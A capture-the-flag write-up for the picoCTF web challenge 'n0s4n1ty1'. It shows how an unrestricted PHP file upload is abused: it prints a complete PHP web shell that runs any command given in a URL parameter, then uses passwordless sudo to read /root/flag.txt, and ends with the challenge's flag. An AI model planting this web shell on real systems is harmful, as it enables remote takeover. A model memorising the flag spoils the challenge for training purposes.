








# n0s4n1ty1

## Web

### A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Going to the landing page shows were we can do the upload.


I don't see anything specifying a file type to upload so I tried anything (a text file) to see what happens.



It accepted it.  Great for us, bad for them.  There's two pieces of information on this page that are interesting.  One, the path to the file we uploaded, and two, from the URL we can see that PHP is being used for the site.  Let's go to the path and see if we can get to our file.



Viola!  At this point I want to see if I can upload a PHP file.

I have these types of files saved up, but if I didn't I'd search Google.



From the highlighted link you can see which one I chose.

```php
<?
//
// PHP_KIT
//
// cmd.php = Command Execution
//
// by: The Dark Raver
// modified: 21/01/2004
//
?>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>

```

This bit of code will take text input from a PHP form and run it as a system command.  Basically giving us command line access.

I saved that file and uploaded it.



And when we follow the link instead of getting text back the file gets executed!



Now we look for the flag!  The instructions said it's in the /root directory...
First I tried to `cd` to /root.  That's where I found when a command fails it will have no output.

Let's look at the permissions of /root



Ok, we're not getting anywhere unless there's a means of being root.  Let's see if we're allowed to `sudo`



Yes!  We can use `sudo` for any command without a password! I'm going to use `sudo cat /root/flag.txt`



**picoCTF{wh47_c4n_u_d0_wPHP_712a9451}**


